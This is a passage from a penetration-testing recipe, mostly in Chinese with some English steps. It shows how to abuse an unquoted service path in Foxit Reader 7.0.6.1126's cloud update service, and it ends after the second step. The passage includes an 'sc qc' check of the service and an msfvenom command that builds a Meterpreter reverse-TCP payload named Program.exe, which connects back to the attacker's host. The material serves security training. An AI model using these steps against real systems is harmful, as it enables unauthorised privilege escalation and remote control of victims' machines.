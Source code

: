在上述情况下，Foxit Cloud Safe 更新服务的路径没有引号，这基本上意味着它将搜索绝对路径，并导致执行`Program.exe`文件的场景。现在让我们来执行这个实际示例，看看它是如何工作的。

## 准备好了吗

为了做好准备，我们需要 Metasploit 和 Foxit Reader，可以在[找到它们 http://filehippo.com/download_foxit/59448/](http://filehippo.com/download_foxit/59448/) 。易受攻击的版本是 Foxit Reader 7.0.6.1126。一旦安装了 Foxit，我们就可以继续制作配方了。

## 怎么做。。。

1.  Run a Windows cmd and type the following command:

    ```
          sc qc FoxitCloudUpdateService

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_010.jpg)

2.  We see that the binary path is not enclosed in quotation marks. Now we will proceed to make a reverse shell on our Kali machine, using `msfvenom` for this Windows framework. Open a Kali terminal and enter the following command, replacing the IP you have got for your Kali and the desired port:

    ```
          msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP       Address> LPORT=<Your Port to Connect On> -f exe > Program.exe

    ```

    输出将如以下屏幕截图所示：

    ![How to do it...](img/image_09_011.jpg)
